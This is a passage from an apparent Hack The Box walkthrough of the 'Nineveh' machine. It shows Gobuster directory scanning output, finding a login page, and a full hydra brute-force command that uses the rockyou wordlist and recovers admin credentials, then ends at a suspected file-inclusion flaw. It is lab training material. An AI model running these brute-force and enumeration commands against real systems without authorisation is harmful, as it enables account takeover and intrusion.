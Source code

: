 Lets start our Gobuster and see whats in the webpage.


## GoBuster Results

> http://nineveh.htb/

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.43
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/01/23 20:31:19 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/info.php (Status: 200)
/server-status (Status: 403)
/department (Status: 301)
===============================================================
2020/01/23 20:33:44 Finished
===============================================================
```

While looking at the webpages , found a login page in ```/department/login.php```
![Untitled](/img/htb-nineveh/3.png)

So I tried admin:admin I get invalid password so there must be admin user , lets try bruteforce using ``hydra``
![Untitled](/img/htb-nineveh/4.png)

Before that we need to capture the login intercept in burp to see how username and password are represented!

![Untitled](/img/htb-nineveh/5.png)

Now start ``hydra``

``` hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 -V -f http-post-form '/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:invalid password' ```

![Untitled](/img/htb-nineveh/6.png)


```
-f / -F   exit when a login/pass pair is found (-M: -f per host, -F global)
-v / -V / -d  verbose mode / show login+pass for each attempt / debug mode 
```
![Untitled](/img/htb-nineveh/7.png)[br/](br/)
We got the creds ```admin:1q2w3e4r5t```

Lets try login[br/](br/)
![Untitled](/img/htb-nineveh/8.png)

While checking the ``Notes`` tab it show us some message, I have no idea what it is so lets enumerate more!! And It looks like LFI on the URL.
![Untitled](/img/htb-nineveh/9.png)

```